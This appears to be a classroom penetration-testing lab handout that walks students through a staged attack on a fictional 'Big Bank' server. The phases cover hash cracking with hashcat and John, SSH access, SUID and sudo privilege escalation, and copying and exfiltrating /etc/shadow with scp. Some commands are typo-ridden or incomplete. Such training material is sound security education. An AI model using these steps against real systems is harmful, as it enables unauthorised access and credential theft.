 Phase 1: Reconnaissance (Web Scraping)
Goal: Find the leaked password hash hidden in the internal webpage.

Useful Tools:

curl [URL] - download and view the webpage
open the page in Firefox (easier to read but not necessary)

Phase 2: Hash Cracking
Goal: Crack the password hash using authorized tools.

Common Commands:
Using Hashcat (SHA-512 Linux password hash = mode 1800):
**hashcat - m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt**

Using John the Ripper:
**john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt**

Wordlist location in Kali Linux:
/usr/share/wordlist/rockyou.txt

(you may need to unzip it first using gunzip)


Phase 3: SSH Access
Goal: SSH into Big Bank's server using the cracked password.

Basic SSH Command:
ssh [username]@[server IP Address]


Phase 4: Privilege Escalation
Goal: Find a way to become root.

Things to check:
Check for SUID Binaries:
find / -perm -4000 -type f 2>/dev/null

Check user's Sudo rights:
sudo -l

Common Exploites:
Misconfigured SUID programs (rootbash, custom binaries)
Ability to run specific commands as root without password (NOPASSWD sudo)

Phase 5: Data Exfiltration
Goal: Steal the /etc/shadow file for cracking.

Copy the shadow file:
sudo cp

transfer file
scp student@ip:foler


Phase 6: Cracking More Passwords

Crack the stolen hashes with Hashcat:
hashcat -m 1800 -a 0 ~filelocation

Crack Stolen hashes with John:
john --wordlist=rockyou.txt ~filelocation


**IMPORTANT NOTES:**
Focus on staying stealthy -- don't run unnecessary noisy commands.
Work with your team
Take notes on cracked passwords and how to obtain them.


